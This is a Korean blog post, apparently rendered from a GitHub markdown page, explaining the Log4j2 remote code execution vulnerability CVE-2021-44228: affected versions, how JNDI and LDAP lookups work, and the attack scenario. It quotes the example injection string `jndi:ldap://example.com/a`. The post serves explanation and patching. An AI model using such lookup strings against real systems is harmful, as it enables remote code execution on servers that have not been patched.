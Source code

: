 ```yaml
---
title: Log4j2 취약점(CVE-2021-44228)
tags:
  - security
date: 2021-12-13 14:02:39
---
```


## Log4j2 취약점이란?
CVE-2021-44228은 2021년에 발견된, 널리 사용되는 자바 기반의 loggin 패키지인 Log4j의 취약점이다. 이는 공격자가 원격 서버에서 코드를 실행하는(Remote Code Execution, RCE) 공격을 허용하기 때문에 심각한 위협이 된다. 해당 취약점은 Log4j 버전 2(2.0-beta-9부터 2.14.1)에 존재하며, 2.15.0 버전에서 패치되었다. 

## JNDI와 LDAP
Log4j 패키지는 2013년에 v2.0-beta-9에서 "JNDILookup plugin"을 추가하였다. JNDI는 Java Naming and Directory Interface의 약어로, Java 프로그램이 디렉토리에 위치하는 데이터에와 자원에 접근하기 위한 인터페이스이다. Java 프로그램은 JNDI와 LDAP(Lightweight Directory Access Protocol)을 사용하여 LDAP 서버에 접근, LDAP 서버에서 객체를 로드할 수 있는데, localhost(해당 Java 프로그램이 실행되는 머신)의 LDAP 서버 말고도 LDAP URL을 사용하여 인터넷에 연결된 임의의 머신에서 실행되는 LDAP 서버를 지정할 수 있다. 즉, 공격자가 특정 Java 프로그램의 LDAP URL을 수정할 수 있는 권한을 얻게 된다면 해당 프로그램이 실행되면서 공격자가 원하는 서버에 위치한 객체를 로드할 수 있다는 것이다.

## 공격 시나리오
공격자가 Log4j를 통해 `jndi:ldap://example.com/a` 같은 형태의 문자열을 출력할 경우, Log4j는 example.com의 LDAP서버에 접근하여 객체를 반환하게 된다. 이는 Log4j가 `prefix:name` 형태의 특수 구문을 지원하여 여러가지 Lookup을 지원하기 때문인데, key가 ":"을 포함할 경우 기본 prefix인 "java:comp/env/"가 붙지 않고 LDAP 서버에 쿼리가 발생한다.
따라서 공격자는 log가 발생하는 input을 찾아내어 `jndi:ldap://example.com/a` 형식의 log가 발생하도록 하면 자신이 원하는 LDAP 서버에 위치한 코드를 실행할 수 있다. 이는 Java 기반의 인터넷과 직접 상호작용(Internet facing)하는 소프트웨어의 일반적인 공격 시나리오이며, 인터넷과 직접 상호작용하지 않는 Java 기반의 소프트웨어도 시스템 간 데이터 전송을 통해 공격 대상이 될 수 있다. 따라서, Log4j를 사용하는 모든 Java 기반 시스템은 반드시 업데이트가 요구되는 상황이다. 

### 출처
- https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
- https://logging.apache.org/log4j/2.x/manual/lookups.html
